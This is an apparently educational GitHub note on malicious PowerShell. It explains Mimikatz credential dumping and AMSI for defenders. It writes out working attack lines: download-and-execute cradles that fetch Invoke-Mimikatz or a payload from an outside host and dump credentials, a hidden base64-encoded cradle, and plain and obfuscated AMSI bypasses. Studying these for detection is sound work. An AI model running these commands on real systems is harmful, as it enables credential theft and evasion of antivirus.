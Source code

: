 
# Malicious Powershell 
In this series, I'll discuss why organizations should care about malicious Powershell activity, how the attackers use Powershell to steal credential(e.g.,Mimikatz) and how to prevent and detect malicious Powershell activity.

## Why do attackers love Powershell ?
PowerShell, a powerful Windows scripting language, is used by IT professionals and adversaries alike. Attackers favor PowerShell for several reasons:

- It's build-in command line tool.
- It can download and execute code from another system.
- It provides unprecedented access on Windows computers
- It’s enabled on most computers, as system administrators use PowerShell to automate various tasks (e.g,. shut down your machines automatically at 12 a.m.—do this via task scheduler)
- Its malicious use is often not stopped or detected by traditional endpoint defenses, as files and commands are not written to disk. This means fewer artifacts to recover for forensic analysis.

Several offensive tools exist that are built on or use PowerShell, including the following:
- [Empire](https://github.com/EmpireProject/Empire)
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
- [Metasploit](https://www.rapid7.com/db/modules/post/windows/manage/exec_powershell/)
- [Invoke-Mimikatz](https://github.com/clymb3r/PowerShell/tree/master/Invoke-Mimikatz)

Eliminating Powershell isn't ideal due to the benifits it offers IT administrators. Instead, we need to learn how to secure Powershell.

Let's take a deep dive into Powershell usage to dump password with Mimikatz.

## What is Mimikatz, and how does it work?
Mimikatz is a post-exploitation tool used to dump passwords, hashes, and Kerberos tickets from memory. Attackers use Mimikatz to steal credentials and escalate their privileges; similarly, pen testers use Mimikatz to retrieve plaintext versions of passwords from hashes stored in memory (these exist to provide Windows single sign-on (SSO) functionality). It enables many attacks that use credentials such as pass the hash, pass the ticket, golden Kerberos ticket, and so on. 

In order to facilitate SSO, whenever a user authenticates, a variety of credentials are generated and stored in LSASS memory. The credentials stored in LSASS memory can be NTLM password hashes, Kerberos tickets, and even clear-text passwords when using the Windows feature WDigest. WDigest, introduced with Windows XP, is an authentication protocol used for LDAP and web-based authentication. Client machines that seek to authenticate must demonstrate their knowledge of secret keys. This improves on earlier versions of HTTP authentication where the user provides a password that is not encrypted when sent to authenticating server. As WDigest stores cleartext passwords in memory, if an attacker has control over that endpoint, they can run Mimikatz to steal hashes and clear text passwords.

Mimikatz was most famously used in the Petya and NotPetya attacks that affected thousands of computers worldwide between 2016 and 2017. The NotPetya virus, similar to Petya, infects a target computer, encrypts the data on the computers and displays a message for the victim explaining how to send bitcoin in order to retrieve the encrypted data.

Let's look at a malicious PowerShell command for fileless network access and remote content execution. This command passes the contents of the file hosted on the below URL to PowerShell via the commandline, and executes it "in memory" on the target system:

    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
    
where:
- IEX or Invoke-Expression cmdlet: executes the command provided on the local machine.
- New-Object cmdlet: creates an instance of a .NET Framework
- downloadstring: download the contents from Github into a memory buffer, which IEX will execute
- DumpCreds parameter: instructs Mimikatz to dump credentials out of LSASS.  


---

      powershell.exe -Noprofile -NonI -W Hidden -Exec Bypass -encodedcommand  SUVYICgobmV3LW9iamVjdCBuZXQud2ViY2xpZW50KS5kb3dubG9hZHN0cmluZygnaHR0cHM6Ly93d3cuZmlyZWV5ZS5jb20vY29tcGFueS9qb2JzLmh0bWwnKSk=

The following is a quick explanation of the arguments:
- -NoProfile – indicates that the current user’s profile setup script should not be executed when the PowerShell engine starts.
- -NonI – shorthand for -NonInteractive, meaning an interactive prompt to the user will not be presented.
- -W Hidden – shorthand for “-WindowStyle Hidden”, which indicates that the PowerShell session window should be started in a hidden manner.
- -Exec Bypass – shorthand for “-ExecutionPolicy Bypass”, which disables the execution policy for the current PowerShell session (default disallows execution). It should be noted that the Execution Policy isn’t meant to be a security boundary.
- -encodedcommand – indicates the following chunk of text is a base64 encoded command.

--- 
Check version of powershell 
        
        $PSVersionTable

| Name                           | Value                      |
|:------------------------------:|:--------------------------:|                         
| PSVersion                      | 5.1.19041.1682             |
| PSEdition                      | Desktop                    |
| PSCompatibleVersions           | {1.0, 2.0, 3.0, 4.0...}    |
| BuildVersion                   | 10.0.19041.1682            |
| CLRVersion                     | 4.0.30319.42000            |
| WSManStackVersion              | 3.0                        |
| PSRemotingProtocolVersion      |2.3                         |
| SerializationVersion           | 1.1.0.1                    |  

# AMSI bypass methods
## How AMSI work.
When a user executes a script or initiates PowerShell, the AMSI.dll is injected into the process memory space. Prior to execution the following two API’s are used by the antivirus to scan the buffer and strings for signs of malware.
- AmsiScanBuffer()
- AmsiScanString()

![AMSI work](https://pentestlaboratories.files.wordpress.com/2021/05/amsi-powershell-flowchart-1.png?w=1024)

1. PowerShell Downgrade
        
        powershell -version 2
2. Base64 Encode 
- original AMSI bypass

        [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
- Base64 Encode
        
        [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
        
        
A Sample Malicious PowerShell Process - To launch and Download a Remote File
          
        powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('https://js.choosebudget.com:443/sc\u0441'))\
        
- powershell.exe: specifies a standard ps command 
- nop (noprofiel): starts powershell without loading any PowerShell Profiles.
- w hidden (-WindowStyle): hide the session window from user. valid values are Normal, Min, Max and Hidden
- c (-Command): which is followed by the command to run.
- IEX (Invoke-Expression): runs a specified string as cmd and returns the results fo the expression or cmd
- New-Object: -cmdlet creates an instance of a .NET framework or COM object
- Net.webclient: Provides common methods for sending & receiving data from a resource indentified by a URI
- e (encode) parameter indicates that what follows is base64 encoded



# Preferences
- https://docs.microsoft.com/en-us/powershell/module/defender/set-mppreference?view=windowsserver2022-ps


[![alt-text](https://img.shields.io/github/repo-size/Phongtran1201/knowledge)](https://github.com/Phongtran1201/Knowledge.git)
